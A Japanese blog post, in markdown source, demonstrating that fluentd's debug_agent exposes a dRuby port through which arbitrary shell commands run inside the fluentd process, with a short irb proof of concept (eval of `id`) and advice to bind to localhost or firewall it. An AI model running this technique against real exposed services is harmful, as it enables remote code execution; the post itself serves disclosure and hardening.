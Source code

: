 ```yaml
---
layout: post
title: "fluentd に drb で接続してみた"
date: 2014-06-13 22:41:08 +0900
comments: true
category: blog
tags: fluentd ruby drb
---
```

druby の口が公開されていたら、そのユーザーの権限で何でも実行できるはず、
ということで、ちょっと試してみました。

<!--more-->

## 対象バージョン

- `ruby` 2.1.2
- `fluentd` 0.10.49

## 環境の準備

vagrant 上で rbenv と ruby-build を使ってインストールした ruby 2.1.2 で

- `gem install fluentd`
- `fluentd --setup /vagrant/fluent`
- `fluentd -c /vagrant/fluent/fluent.conf &`

と起動して準備しておきました。

## 実行例

`irb` を起動しているユーザーと同じユーザーで `fluentd` も起動しているので、
特に面白いことはできそうになかったのですが、
`/proc/$$/cmdline` を確認すると `irb` 側ではなく、
ちゃんと `fluentd` 側で任意のコマンドが実行できていることがわかります。

    vagrant@fluentd-vm:~$ rbenv exec irb -r irb/completion --simple-prompt
    >> require 'drb'
    => true
    >> d = DRbObject.new_with_uri('druby://127.0.0.1:24230'); nil
    => nil
    >> d.method_missing(:send, :eval, "`id`")
    => "uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)\n"
    >> d.method_missing(:send, :eval, '`cat /proc/$PPID/cmdline`')
    => "/opt/rbenv/versions/2.1.2/bin/ruby\x00/opt/rbenv/versions/2.1.2/bin/fluentd\x00-c\x00/vagrant/fluent/fluent.conf\x00"

## 雑感

`root` 権限で起動しているなら `debug_agent` は有効にしない方が良さそうだし、
ローカルユーザーが `fluentd` の実行ユーザーの権限を使えるとまずい場合も有効にしない方が良さそうだと思いました。

また、知っている人には当たり前のことですが、
`drb` は外部に安全に公開できるものではないので、
使う場合も `localhost` だけ待ち受けるように制限すべきです。

td-agent は初期設定でそうなっているのですが、
`fluentd --setup` はそうなっていないので、
適切に設定を変更するなり firewall で塞ぐなりしておく必要がありそうです。

## td-agent 1.1.19-1 での初期設定

`127.0.0.1` だけで待ち受けるようになっていました。

    ## live debugging agent
    <source>
      type debug_agent
      bind 127.0.0.1
      port 24230
    </source>

## fluentd --setup で生成される設定

外からも受けつけるようになっていました。

    # Listen DRb for debug
    <source>
      type debug_agent
      port 24230
    </source>

## 参考

- [るりま の DRb](http://docs.ruby-lang.org/ja/2.1.0/library/drb.html) のセキュリティ
- [RDoc の DRb の Security の説明](http://docs.ruby-lang.org/en/2.1.0/DRb.html#module-DRb-label-Security) (英語)
